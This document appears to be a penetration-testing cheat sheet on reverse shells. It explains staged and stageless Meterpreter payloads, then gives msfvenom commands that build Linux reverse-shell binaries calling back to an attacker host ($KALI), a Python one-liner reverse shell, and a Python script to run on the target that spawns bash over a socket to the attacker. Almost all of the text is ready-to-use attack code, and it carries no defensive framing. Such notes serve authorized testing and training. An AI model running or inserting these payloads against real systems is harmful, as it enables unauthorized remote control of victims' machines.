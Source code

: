 ## MSFVenom 

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Stageless Payloads
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Python
```bash - kali
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Python file root execute
```bash - target
which bash
```

```python - target
#!/usr/bin/env python
import socket, os, pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",8003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```




